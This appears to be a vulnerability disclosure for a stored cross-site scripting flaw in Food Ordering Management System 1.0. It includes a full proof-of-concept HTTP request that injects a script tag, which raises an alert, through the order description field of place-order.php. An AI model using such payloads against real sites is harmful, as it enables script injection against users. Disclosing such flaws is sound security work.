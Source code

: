 ##The Food order management system has a Cross-Site Scripting vulnerability

## Affected version: 
Food Ordering Management System - 1.0

## Software:
https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

## Vulnerability File:
/foms/index.php

## Description:
Food Ordering Management 1.0 is vulnerable to a Cross-Site Scripting vulnerability caused by the lack of filtering of input content in the textarea tab in /foms/index.php. A malicious attacker can exploit this vulnerability to generate a link containing malicious code to lure the victim into clicking on it.

Status: Low risk

POC
```
POST /foms/place-order.php HTTP/1.1
Host: localhost:8088
Content-Length: 117
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8088/foms/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hlodrr0cq84ndg4raumb7hpcla
Connection: close

1=0&2=0&3=1&description=%22%3E+%3Cscript%3Ealert%28%2FThis+page+has+an+XSS+vulnerability%2F%29%3C%2Fscript%3E&action=
```


1、When an ordinary user generates an order, there is a message function
![efcc489b53a233bf1ee960ef1cb34eb](https://github.com/user-attachments/assets/30c3b4ac-ad04-4743-befb-a6231cb8e727)

![faf316603c599ac61addc544e489ff2](https://github.com/user-attachments/assets/2682e3ad-ad06-4248-8c32-818d9b04be08)


2、The input is not filtered in the "textarea" tab
![53ee009d56d7dfec4331519f305a858](https://github.com/user-attachments/assets/ddaed49f-e10d-41dd-8127-03e434a2812f)






